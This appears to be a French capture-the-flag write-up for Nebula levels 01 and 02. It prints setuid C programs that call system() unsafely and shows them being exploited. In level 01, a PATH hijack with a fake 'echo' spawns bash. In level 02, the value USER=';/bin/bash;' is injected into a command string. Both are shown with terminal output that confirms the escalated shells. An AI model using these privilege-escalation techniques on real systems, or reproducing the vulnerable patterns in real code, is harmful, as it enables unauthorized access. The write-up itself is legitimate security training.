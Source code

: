 ## PATH VARIABLES
Il y a une vulnérabilité dans le programme ci-dessous qui permet l'exécution de programmes arbitraires, pouvez-vous la trouver ?
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```
Ici on voit que ce code execute un programme appele `env` et aussi `echo`
- Mais quand je demande ou sont stockees ces 2 programmes la sur ma machine
```sh
sh-4.2$ which env
/usr/bin/env
sh-4.2$ which echo
/bin/echo
```
Alors que si je revois ma variable PATH(*PATH est une variable d'environnement dans les systèmes d'exploitation Linux et Unix qui spécifie tous les répertoires `bin` et `sbin` dans lesquels sont stockés tous les programmes exécutables. Lorsque l'utilisateur exécute une commande sur le terminal, il demande au shell de rechercher les fichiers exécutables à l'aide de la variable PATH en réponse aux commandes exécutées par l'utilisateur. Le superutilisateur dispose généralement des entrées `/sbin` et `/usr/sbin` pour exécuter facilement les commandes d'administration du système.*)

```sh
sh-4.2$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Dans ce `PATH` j'ai ici plusieurs repertoires, mais plus importants pour moi est `:/bin:` et aussi `:/usr/bin:` car biensur le programme vulnerable execute des outils qui sont dans ces repertoires la

donc la j'ajoute un PATH et je cree un fichier executable
```sh
sh-4.2$ export PATH=/tmp:$PATH
sh-4.2$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games


```



```sh
#include <unistd.h>

int main()
{
system("bash");
}


level01@nebula:/tmp$ gcc -o echo echo.c 
level01@nebula:/tmp$ chmod +x echo
level01@nebula:/tmp$ /home/flag01/flag01 
flag01@nebula:/tmp$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
```


```sh
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

```console
level02@nebula:~$ USER=";/bin/bash;"
level02@nebula:~$ ../flag02/flag02
about to call system("/bin/echo ;/bin/bash; is cool")

flag02@nebula:~$ id
uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)
```